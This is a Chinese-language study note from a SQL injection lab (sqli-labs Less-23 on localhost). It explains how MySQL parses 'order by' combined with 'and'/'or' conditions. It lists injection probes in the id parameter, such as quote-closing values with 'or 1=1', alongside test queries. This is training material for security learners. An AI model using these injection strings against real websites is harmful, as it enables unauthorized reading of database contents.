

# 补充知识_sql语句解析顺序_01
参考链接： https://www.cnblogs.com/annsshadow/p/5037667.html
以less-23为例，我们使用正常的order by来查询一下一共有多少列：
1. http://127.0.0.1/sqli/Less-23/?id=1‘ order by 10 因为没有闭合，所以肯定会报错
2. http://127.0.0.1/sqli/Less-23/?id=1‘ order by 10 and  ’1‘=‘1 返回是正常的，但是由于我们已知肯定没有10列，这是为什么还会返回正常？
3. http://127.0.0.1/sqli/Less-23/?id=1‘ order by 10 or ’1‘=‘1 此时使用or，返回依旧正常。
我们回到mysql命令行，执行以下语句：
1.  select * from users where id =1 ; 此时返回数据肯定是正常的。
2. select * from users where id =1  and 1=1; 此时返回数据也是正常的。
3. select * from users where id =1  or  1=1;   此时返回了所有的数据。
4. select * from users where id =11111  or  1=1; 此时也是返回了所有的数据。 说明执行的时候是  A or B
5. select * from users where id =1 order by 3; 返回正常，肯定正常。
6. select * from users where id =1  order by 3 and 1=1; 此时依旧返回正常。
7. select * from users where id =1  order by 4444 and 1=1;   此时返回正常